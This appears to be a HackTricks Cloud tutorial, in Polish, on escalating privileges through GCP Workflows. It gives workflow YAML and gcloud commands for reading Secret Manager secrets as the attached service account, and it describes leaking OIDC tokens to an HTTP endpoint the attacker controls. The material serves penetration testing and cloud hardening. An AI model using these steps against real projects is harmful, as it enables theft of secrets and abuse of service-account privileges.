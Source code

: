 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Podstawowe informacje:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

O ile mi wiadomo, nie jest możliwe uzyskanie powłoki z dostępem do punktu końcowego metadanych zawierającego dane uwierzytelniające SA przypisanego do Workflow. Jednak możliwe jest nadużycie uprawnień SA, dodając działania do wykonania wewnątrz Workflow.

Możliwe jest znalezienie dokumentacji konektorów. Na przykład, oto [**strona konektora Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** W pasku bocznym można znaleźć kilka innych konektorów.

A tutaj można znaleźć przykład konektora, który drukuje sekret:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Aktualizacja z CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Jeśli otrzymasz błąd taki jak `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, po prostu **poczekaj minutę i spróbuj ponownie**.

Jeśli nie masz dostępu do sieci, możliwe jest wywołanie i zobaczenie wykonania Workflow za pomocą:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Możesz również sprawdzić wyniki wcześniejszych wykonania, aby poszukać wrażliwych informacji
{% endhint %}

Zauważ, że nawet jeśli otrzymasz błąd taki jak `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` ponieważ nie masz tej zgody, workflow został wygenerowany.

### Wyciekanie tokena OIDC (i OAuth?)

Zgodnie z [**dokumentacją**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) możliwe jest użycie kroków workflow, które wyślą żądanie HTTP z tokenem OAuth lub OIDC. Jednak, podobnie jak w przypadku [Cloud Scheduler](gcp-cloudscheduler-privesc.md), żądanie HTTP z tokenem Oauth musi być skierowane do hosta `.googleapis.com`.

{% hint style="danger" %}
Dlatego **możliwe jest wyciekanie tokena OIDC poprzez wskazanie punktu końcowego HTTP** kontrolowanego przez użytkownika, ale aby wyciekać **token OAuth**, potrzebowałbyś **obejścia** tej ochrony. Niemniej jednak, nadal możesz **kontaktować się z dowolnym API GCP, aby wykonywać działania w imieniu SA** używając zarówno konektorów, jak i żądań HTTP z tokenem OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Dzięki temu uprawnieniu, zamiast `workflows.workflows.create`, możliwe jest zaktualizowanie już istniejącego workflow i przeprowadzenie tych samych ataków.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

